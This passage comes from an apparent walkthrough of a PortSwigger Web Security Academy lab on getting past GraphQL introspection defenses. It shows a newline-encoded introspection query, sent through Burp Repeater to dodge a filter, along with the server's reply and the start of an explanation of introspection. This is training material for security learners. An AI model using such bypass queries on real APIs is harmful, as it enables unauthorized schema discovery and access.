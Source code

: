 OK, cool, let's send the request in repeater:
**Request**
```HTTP
GET /api?query=query%7b__schema%0a+%7bqueryType%7bname%7d%7d%7d HTTP/2
Host: 0a7500a5048f1d4881dc76a500e100e4.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Cache-Control: max-age=0
Cookie: session=GK55sNu9PbFaURJWf1TqFc6bf1znx72m
```

**Response**
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=VILmNREKQeZDDXaIDSBj9llyNeJ0KDwt; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      }
    }
  }
}
```

3. Ok, looks like I'm going to have to find a way to augment this request to uncover some hidden info
Remember, the instructions said:
```
The endpoint also has some defenses against introspection.

To solve the lab, find the hidden endpoint and delete `carlos`.
```

This is where I hit a wall, so I checked PortSwigger's article on [Bypassing GraphQL introspection defenses](https://portswigger.net/web-security/graphql#finding-graphql-endpoints)

---
## But first, lets make sure we understand what introspection.

**" Introspection is a feature in GraphQL that allows it to describe it's own data to the client**

**" Introspection let's clients query a GraphQL Server for info about it's
underlying schema, which includes data such as queries, mutations, subscriptions,
directives, types, fields, and more.** "
